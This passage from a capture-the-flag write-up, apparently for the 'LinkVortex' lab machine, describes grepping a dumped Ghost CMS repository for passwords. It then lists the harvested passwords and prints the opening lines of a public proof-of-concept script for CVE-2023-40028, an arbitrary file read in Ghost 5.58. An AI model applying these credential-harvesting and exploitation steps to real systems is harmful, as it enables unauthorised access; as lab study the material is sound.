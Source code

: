 | Version |
| ------- |
| 5.58.0  |

As we looked deeper into the files and started searching for `credentials` we found a lot of different `passwords`.

```c
┌──(venv)─(kali㉿kali)-[~/…/01_information_gathering/git-dumper/dump/ghost]
└─$ grep -R 'const password' -A 3 -B 3
<--- CUT FOR BREVITY --->
core/test/regression/api/admin/authentication.test.js:            const password = 'OctopiFociPilfer45';
<--- CUT FOR BREVITY --->
core/test/regression/api/admin/authentication.test.js:            const password = 'thisissupersafe';
<--- CUT FOR BREVITY --->
```

We wrote down the ones which occurred the most for later.

| Password           |
| ------------------ |
| OctopiFociPilfer45 |
| thisissupersafe    |
| Sl1m3rson99        |
| qu33nRul35         |
## Foothold

### CVE-2023-40028: Arbitrary File Read in Ghost CMS 5.58

A quick search on our favorite search engine `Google` brought up the `CVE-2023-40028` which described an `Arbitrary File Read` vulnerability in version `5.58` of `Ghost CMS`.

We also found a `Proof of Concept (PoC)` exploit for this vulnerability.

- [https://github.com/0xyassine/CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028)

We modified the `URL` within the `Proof of Concept (PoC)` and tested some obvious `usernames` in combination with the previously found `passwords`.

```c
┌──(kali㉿kali)-[/media/…/Machines/LinkVortex/files/CVE-2023-40028]
└─$ head -20 CVE-2023-40028.sh
#!/bin/bash

# Exploit Title: Ghost Arbitrary File Read
# Date: 10-03-2024
# Exploit Author: Mohammad Yassine
# Vendor Homepage: https://ghost.org/
# Version: BEFORE [ 5.59.1 ]
# Tested on: [ debian 11 bullseye ghost docker image ]
# CVE : CVE-2023-40028

#THIS EXPLOIT WAS TESTED AGAINST A SELF HOSTED GHOST IMAGE USING DOCKER

#GHOST ENDPOINT
GHOST_URL='http://linkvortex.htb'
GHOST_API="$GHOST_URL/ghost/api/v3/admin/"
API_VERSION='v3.0'

PAYLOAD_PATH="`dirname $0`/exploit"
PAYLOAD_ZIP_NAME=exploit.zip
```